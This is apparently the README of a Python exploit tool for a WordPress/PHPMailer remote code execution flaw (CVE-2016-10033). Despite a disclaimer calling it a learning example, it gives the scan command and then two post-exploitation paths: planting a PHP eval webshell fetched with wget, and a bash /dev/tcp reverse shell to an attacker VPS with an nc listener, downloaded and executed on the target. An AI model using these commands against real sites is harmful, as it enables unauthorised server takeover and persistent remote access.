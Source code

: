 # WordPress-RCE-EXP
# 前言
本脚本只提供python学习案例来使用，并不提供任何漏洞检测、利用。
任何人使用此脚本导致法律责任，作者概不承担一切法律责任。
# 影响版本
漏洞编号：CVE-2016-10033 （基于）

WordPress <= 4.7.1 

PHPMailer < 5.2.18

# 0x1扫描

```
python3 wp_rce_exp.py <目标> <目标站存在的用户名>

Python3 wp_rce_exp.py http://127.0.0.1/ admin
```
# 0x2验证
出现
Test_blind_shell>>>
后，说明案例站存在RCE漏洞
有两种方式来后续执行命令

### 一、在案例站点写入Webshell

 1.在vps上开web服务，在web目录下的test.txt文件中写入一句话
```
<?php @eval($_POST[test]); ?>
```

 
2.目标使用wget下载到web目录上
(注意vps需要用ip地址，前面不能加http://)
```
Test_blind_shell>>>/usr/bin/wget --output-document /var/www/html/shell.php VPS的ip/shell.txt
```
3.使用菜刀连接网站根目录的shell.php

### 二、案例站点的反弹shell: 
1.在vps上开web服务，写shell.txt文件内容为 
```
bash -i >& /dev/tcp/VPS的ip/7001 0>&1
```


2.在VPS上使用nc监听7001端口 命令：

```
nc -lvp 7001
```


3.目标使用wget下载到/tmp目录/test.sh
```
Test_blind_shell>>>/usr/bin/wget --output-document /tmp/test.sh VPS的ip/shell.txt
```
4.执行下载到本地的脚本文件

```
Test_blind_shell>>>/usr/bash ./tmp/test.sh
```
注意命令执行需要加上绝对路径例如/bin/bash 有些特殊字符不能使用例如&分号引号等
